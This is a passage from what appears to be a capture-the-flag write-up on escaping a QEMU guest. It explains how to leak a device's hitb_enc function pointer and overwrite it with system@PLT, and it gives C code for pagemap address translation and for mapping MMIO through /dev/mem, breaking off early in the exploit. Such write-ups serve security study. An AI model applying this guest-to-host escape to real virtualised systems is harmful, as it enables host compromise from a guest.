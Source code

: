 {% endhighlight %}

Thanks to the symbols we can see that the `hitb_enc` function pointer is right after the `dma_buf`, our goal is to leak that pointer and overwrite it with the address of `system@PLT` this way we can call `system` on the host with our controlled arguments from the guest.

To resolve VA to PA from user-land we can use [/proc/self/pagemap](http://fivelinesofcode.blogspot.com/2014/03/how-to-translate-virtual-to-physical.html) with the following function.

{% highlight C %}
#define PAGEMAP_LENGTH sizeof( size_t )

size_t virt_to_phys( void* addr )
{
    int fd = open( "/proc/self/pagemap", O_RDONLY );

    size_t offset = (size_t)addr / getpagesize() * PAGEMAP_LENGTH;
    lseek( fd, offset, SEEK_SET );

    size_t page_frame_number = 0;
    read( fd, &page_frame_number, PAGEMAP_LENGTH );

    page_frame_number &= 0x7FFFFFFFFFFFFF;

    close( fd );

    return ( page_frame_number << 12 ) | ( (size_t)addr & 0xfff );
}
{% endhighlight %}

### Exploit

{% highlight C %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>

#define PAGEMAP_LENGTH sizeof( size_t )
#define COPY_FROM_PA 1
#define COPY_TO_PA 1 | 2
#define HITB_ENC 4

unsigned int mmio_addr = 0xfea00000;
unsigned int mmio_size = 0x100000;
char* mmio = 0;

void* devmap( size_t offset )
{
    int fd = open( "/dev/mem", O_RDWR | O_SYNC );
    if ( fd == -1 ) {
        perror( "open /dev/mem" );
        return 0;
    }

    void* result = mmap( NULL, mmio_size, PROT_READ | PROT_WRITE, MAP_SHARED, fd, mmio_addr );

    if ( !result ) {
        perror( "mmap" );
    }

    close( fd );
    return result;
}

int test( void )
{